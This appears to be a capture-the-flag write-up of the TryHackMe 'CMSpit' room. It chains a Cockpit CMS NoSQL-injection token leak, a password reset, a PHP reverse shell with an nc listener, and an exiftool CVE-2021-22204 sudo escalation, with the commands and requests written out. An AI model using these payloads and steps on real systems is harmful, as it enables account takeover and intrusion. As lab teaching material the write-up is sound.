 # CMSpit

**Room Link:** [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



CMS Version is 0.11.1

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### User account compromise

This CMS version has a exploit to help us find users.

**Exploit:** [**https://swarm.ptsecurity.com/rce-cockpit-cms/**](https://swarm.ptsecurity.com/rce-cockpit-cms/)[ ](https://swarm.ptsecurity.com/rce-cockpit-cms/)



**Burp**

```
GET /auth/requestreset HTTP/1.1
Host: 10.10.198.113
Content-Length: 25
Content-type: application/json

{
  "user":"admin"
}
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Burp**

```
GET /auth/resetpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 38
Content-type: application/json

{
"token":{
"$func":"var_dump"
}
}
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /auth/newpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 66
Content-type: application/json

{
"token":"rp-25badb6dbd66e39732cc3abf8122ba9065b6ee57e7610"
}

```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Did the same thing for user skidy

**Burp**

```
GET /auth/newpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 66
Content-type: application/json

{
"token":"rp-4472f7f85a07bbc1b08d917a298ad0f365b6e7ce6d85e"
}

```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I don't know if the last part was really necessary. I think maybe the reset token can be different then the other token in which case the above step would be necessary but its the same so I just updated the password for skidy.

**Burp**

```
GET /auth/resetpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 88
Content-type: application/json

{
"token":"rp-4472f7f85a07bbc1b08d917a298ad0f365b6e7ce6d85e",
"password":"hacked"
}

```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can now login as Skidy

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
nc -lvnp 1234 
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement (Stux)

**Victim**

```
cd /home/stux
cat .dbshell
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su stux
Password: p4ssw0rdhack3d!123
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Exploit:** [https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py](https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py)

**Victim(receiving)**

```
nc -l -p 1234 > cve.tar.gz
```

**Kali(sending)**

```
git clone https://github.com/se162xg/CVE-2021-22204.git
tar cvf cve.tar.gz  CVE-2021-22204/
nc -w 3 $VICTIM 1234 < cve.tar.gz
```

**Victim**

```
tar xvf cve.tar.gz 
cd CVE-2021-22204
```

**Victim**

```
bash craft_a_djvu_exploit.sh '/bin/bash'
sudo /usr/local/bin/exiftool delicate.jpg 
```

<figure><img src="../../.gitbook/assets/image (772).png" alt=""><figcaption></figcaption></figure>

